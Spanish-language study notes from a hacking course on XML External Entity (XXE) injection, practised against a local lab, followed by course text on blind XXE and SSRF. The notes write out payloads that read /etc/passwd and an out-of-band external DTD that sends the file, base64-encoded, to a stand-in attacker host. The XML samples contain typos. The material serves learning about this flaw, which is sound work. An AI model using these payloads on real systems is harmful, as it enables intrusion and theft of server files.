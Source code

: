 ## Mis apuntes: 

Para esto tenemos que montar el laboratorio, en el cual podremos practicar todo lo que es XXE: 
Para ver como viajan las peticiones por detrás podemos utilizar burpsuite para entender de mejor manera las cosas: 

![[Pasted image 20240226152901.png]]
bueno dentro de las xml tenemos que saber que hay entridades, que son un elemento de los datos, estos no referencian a los datos como tal, todo ello en un documento xml
hay algunos tipos de entidades, Genericas/customizadas, externas (XXE), predefinidas (&lt;, &gt;)
```
<?xml version="1.0" encodig="UTF-8"> -> Declaracion XML
<!DOCTYPE foo [<!ENTITY xxe system "miEntidad">]> ->DTD(Document Type Definition)
<Profesores>
	<nombre>S4vitar</nombre>
	<edad>27</edad>
	<Rol>Lammer</Rol>
</Hack4u>	
```
en el ejemplo del laboratorio tenemos una estructura tal que así: 
![[Pasted image 20240226154040.png]]
para poder cambiar el output que representa, podemos jugar con entidades, de la siguiente forma: 
![[Pasted image 20240226154811.png]]
creamos un doctype, la entidad se llama myName y contiene el dato gonza.
 ![[Pasted image 20240226154942.png]]
 si hacemos la llamada de la entidad podemos ver que el output cambia y nos representa el nombre que pusimos en la entidad: 
 ![[Pasted image 20240226155022.png]]
 ahora para llevarlo al siguiente nivel podemos llamar a archivos del sistema para que salgan en el output: 
 ![[Pasted image 20240226155432.png]]
 podemos ver que modificamos la entidad para que nos muestre el archivo /etc/passwd y nos muestra el etc/passwd de la maquina victima.
 Hay casos en el que el output no necesariamente salga dentro de la pagina, por lo que hay que aplicar otro tipo de entidades. 
 Estas se llaman External DTD(XXE OOB)
```
EXTERNAL DTD (XXE OOB)
<?xml version="1.0" encodig="UTF-8"> -> Declaracion XML
<!DOCTYPE foo [<!ENTITY xxe system "http://ipatacante/malicious.dtd"> %xxe;]> ->DTD(Document Type Definition)
<Profesores>
	<nombre>S4vitar</nombre>
	<edad>27</edad>
	<Rol>Lammer</Rol>
</Hack4u>	
MALICIOUS.DTD: 
<!ENTITY %file SYSTEM "php://filter/convert.base64-encode/resouce=/etc/passwd">
<!ENTITY %eval "<!ENTITY &#x25; exfil SYSTEM 'http://ipatacante/?file=%file;'>">
%eval;
%exfil;
```
en esta parte del ejemplo podemos ver que se crea la entidad pero no se muestra en pantalla el resultado de este: 
![[Pasted image 20240226204241.png]]
pero podemos hacer la llamada dentro de propio dtd: 
![[Pasted image 20240226210017.png]]
y si tenemos abierto un servidor en el puerto 80 podemos ver que esta consulta nuestro script: 
![[Pasted image 20240226210204.png]]
ahora podemos cambiar el nombre de los archivos y entidades para poder jugar con los scripts que estimemos conveniente ocupar. 
en este caso cambiaremos los nombres de myFile por xxe y el archivo a malicious.dtd. 
![[Pasted image 20240226211748.png]]
el script que estamos llamando es el siguiente: 
![[Pasted image 20240226211844.png]]
donde en la entidad file, convierte el /etc/passwd en base64, lo exporta a mi servidor a través de la entidad eval, que contiene la entidad exfil que muestra el contenido de la entidad file.
La respuesta que va al servidor es la siguiente: 
![[Pasted image 20240226212031.png]]
si hacemos un echo -n | base64 -d; echo veremos lo siguiente:
![[Pasted image 20240227003002.png]]







----
## Datos del curso: 

Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

- **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)